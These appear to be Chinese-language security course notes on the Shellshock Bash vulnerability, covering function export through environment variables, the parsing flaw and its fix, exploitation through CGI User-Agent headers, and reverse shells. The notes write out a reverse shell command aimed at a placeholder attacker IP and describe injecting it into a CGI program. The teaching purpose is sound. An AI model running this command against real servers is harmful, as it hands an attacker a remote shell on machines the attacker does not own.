 ```yaml
---
hide:
  #- navigation # 显示右
  #- toc #显示左
  - footer
  - feedback
comments: true
---  
```


# Shellshock

!!! abstract "Abstract"

	Shellshock 攻击于 2014 年 9 月 24 日被披露，是一个针对 Bash 中函数定义的漏洞，攻击者可以通过构造特定的环境变量来执行任意命令。该漏洞影响了许多 Unix 和 Linux 系统，尤其是那些使用 Bash 作为默认 shell 的系统。

## Shellshock Vulnerability

### Defining Functions in Shell

和其他语言一样，Shell 也是一种编程语言，在 Shell 脚本中，我们可以定义函数：

![](../../../../../assets/Pasted%20image%2020250705125915.png)

如上图，第一行我们定义了一个函数 `foo()`，并可以直接调用，同时，我们还可以用 `declare -f` 命令来查看当前 Shell 中定义的函数，用 `unset -f` 命令来删除一个函数
***
### Passing Function to Child Process

在 Shell 中，我们有两种方法将一个函数传递给子进程，第一种方法是在父 Shell 也是一个 bash 的情况下，在父 Shell 已经定义好函数的情况下，使用 `export -f` 命令，子进程会自动继承这个函数：

![](../../../../../assets/Pasted%20image%2020250705130411.png)

第二种方法是在父 Shell 不是一个 bash 甚至没有运行 bash 的情况下，我们可以通过环境变量来传递函数给子进程：

![](../../../../../assets/Pasted%20image%2020250705134339.png)

我们通过环境变量的定义和传递将函数的定义当做一个字符串完整的传到子进程中，可以看到，在父进程和子进程中，这个 `foo` 函数始终都没有被当做是一个真正的函数，随后子进程就拿到了整个函数的字符串定义
***
### Shellshock Vulnerability

如果，子进程将我们拿到的字符串定义解析成了一个函数，那么就会有其他额外的危险发生，如下图，我们在原来的函数定义后注入一句其他的命令，在父进程中，这个环境变量仍然只是一个字符串，并没有将其当做是函数定义，但当我们将这个环境变量传递给子进程时，子进程会将这个字符串当做是一个函数定义来解析，而我们附加注入的命令同样也能被执行

![](../../../../../assets/Pasted%20image%2020250705134454.png)

那么为什么会这么发生呢？在一个有 Shellshock 漏洞的 Shell 中，在启动时，Shell 会检查环境变量中是否有类似函数定义的情况，如果有，它会将这个函数定义解析成一个真正的函数，这样就会导致我们注入的命令被执行

!!! note "Mistake in the Source Code"

	在 Bash 的源代码当中，它会在环境变量当中寻找有没有形如 `() {` 开头的字符串，如果发现有，那么它会去掉等号，形成一个真正的函数定义，而我们注入的命令被视作是函数定义后附加的语句，Bash 定义的函数还是 `parse_and_execute`，不仅解析了我们定义的函数，还执行了我们注入的命令
	
	![](../../../../../assets/Pasted%20image%2020250705135230.png)

- 从本质上来说，从数据（环境变量）到代码（函数定义）的转换是 Shellshock 漏洞的核心问题

Bash 解决这个问题的方法是，当识别到形如`() {` 的字符串时，Bash 会将其视为一个函数定义，保存到一个专门的环境变量 `BASH_FUNC_` 当中：

![](../../../../../assets/Pasted%20image%2020250705140047.png)

如上图，符号 `$$` 表示当前进程的 PID，Bash 会将这个函数定义保存到 `BASH_FUNC_foo` 的环境变量当中，通过专门的标记将这个环境变量标记为一个函数定义并特别对待，这样既不会被当做是一个普通的字符串来处理，也不去执行里面的内容
***
## Exploit the Vulnerability

> 通过上面的描述，我们可以知道，要实现 Shellshock 攻击，其核心在于两点，第一，子进程需要是一个 Bash 进程，第二，对于输入，我们必须通过环境变量的方式进行传递，其他方法无法触发漏洞

### Shellshock Attack on CGI: How CGI Works

Common Gateway Interface（CGI）是一种标准的协议，用于 Web 服务器和外部程序之间的通信。CGI 程序通常是用来处理 HTTP 请求并生成动态内容的

当一个用户需要调用一个 CGI 程序时，他会发送一个 HTTP 请求到 Web 服务器（例如 Apache），Web 服务器会根据请求的 URL（通常以 CGI 结尾）找到对应的 CGI 程序，然后创建一个子进程，将请求的参数作为环境变量传递给 CGI 程序，CGI 程序会处理这些环境变量，将结果送还给 Web 服务器，Web 服务器再生成一个 HTTP 响应返回给用户

在过去，CGI 通常是使用 Bash 脚本来编写的，同时 CGI 程序通常会从 Web 服务器继承环境变量来 获取参数，这是满足我们 Shellshock 攻击的两个条件

!!! example "Example"

	![](../../../../../assets/Pasted%20image%2020250705141325.png)
	
	如上图，我们写了一个非常简单的 CGI 程序，输出当前进程的环境变量，可以看到，我们确实得到了含有环境变量的 HTTP 响应
	
	最重要的是，我们传送的 HTTP 请求当中什么被传递给了 CGI 程序的环境变量，这其中有一个叫 User-Agent，它代表着浏览器的用户代理信息
	
	我们可以利用 `curl` 命令行工具来发送一个 HTTP 请求，模拟一个浏览器的行为，并在 User-Agent 中注入一个任意内容：
	
	![](../../../../../assets/Pasted%20image%2020250705142121.png)
	
	可以看到，我们注入的内容成功地成为了 CGI 程序的环境变量，那么我们换一个注入 Payload，就可以实现命令的执行
	
	- 一个有意思的现象是，如果我们利用这种方式创建文件，我们会发现这个文件的拥有者叫 `www-data`，这是因为 CGI 程序是由 Web 服务器（例如 Apache）以 `www-data` 用户的身份运行的，所以创建的文件也会以 `www-data` 用户的身份拥有。当然，这个用户通常是一个低权限用户，并不能执行很多操作
***
## Reverse Shell

### Reverse Shell Overview

Reverse Shell 的主要架构如下图：

![](../../../../../assets/Pasted%20image%2020250705143458.png)

对于我们所熟知的远程 Shell 例如 ssh, rsh，它们的工作方式是客户端主动连接到服务器端，服务器端经过权限授予提供一个 Shell 供客户端使用，而 Reverse Shell 则是在服务器端启动一个 shell，而输入和输出都通过网络传输与攻击者机器通信
***
### Implementation

要实现 Reverse Shell 也非常简单，我们在攻击者机器上运行一个监听端口的程序（通过命令行 `nc -lv port`），等待被攻击者机器连接，然后在被攻击者机器上运行 `bash -i >/dev/tcp/attackerIP/port 0<&1 2>&1` 来连接到攻击者机器

- 其中 `-i` 表示交互式模式，`>/dev/tcp/attackerIP/port` 表示将 shell 程序的标准输出设备 stdout 被重定向到一个指定的 TCP 连接。在 unix 系统中，stdout 的文件描述符为 1
- 文件描述符 0 表示标准输入设备 stdin，`0<&1` 表示使用标准输出设备作为标准输入设备。由于标准输出已经被重定向到 TCP 连接，因此标准输入也用同一个 TCP 连接
- 文件描述符 2 表示标准错误 stderr，`2>&1` 表示错误输出也被重定向到同一个 TCP 连接
	- 也可以使用 `2>&0`

![](../../../../../assets/Pasted%20image%2020250705145155.png)

如上图，左边两个终端均为攻击者机器，右边的终端为被攻击者机器，实现了 Reverse Shell 的效果，从效果上来看，Reverse Shell 和远程 Shell 的效果是一样的

结合 Shellshock，只要我们将命令 `/bin/bash -i >/dev/tcp/attackerIP/port 0<&1 2>&1` 注入到 CGI 程序的环境变量中，就可以实现 Reverse Shell 的攻击，从而做到获取被攻击者机器的 Shell，做一些更进一步的恶意操作






